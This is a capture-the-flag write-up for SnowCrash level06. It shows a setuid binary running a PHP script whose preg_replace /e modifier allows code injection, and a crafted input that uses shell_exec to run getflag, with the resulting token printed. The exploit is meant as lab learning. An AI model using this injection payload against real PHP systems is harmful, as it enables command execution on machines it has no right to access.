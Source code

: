 # Flag 06

In level06 home directory we found two files.
```
level06@SnowCrash:~$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php

```
A binary that's executed with the userid of its owner after using binary ninja we found the the binary run the php script & php script:
```php
#!/usr/bin/php
<?php
function y($m)
{
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
}
function x($y, $z)
{
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
?>
```
The php script take two arguments but only use the first as a file name and reads from it.
we copied the php script to the host machine in order to format it and clearly read it and test it.
after running the script we got the error
```
PHP Warning:  preg_replace(): The /e modifier is no longer supported, use preg_replace_callback instead in /home/anas/Projects/cursus/snowCrash/level06/Resources/level06.php on line 12
```
So we search about the `The /e modifier` in google and we found out that it's deprecated because it contains a vulnerability 🤩,
now we just nees to exploit it, we used shell_exec php function that execute shell commands and use the return as variable so php would throw an error with the return.

```
level06@SnowCrash:~$ echo "[x \${\${shell_exec(getflag)}}]" > /tmp/getflag06
level06@SnowCrash:~$ ./level06 /tmp/getflag06
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable:  in /home/user/level06/level06.php(4) : regexp code on line 1

```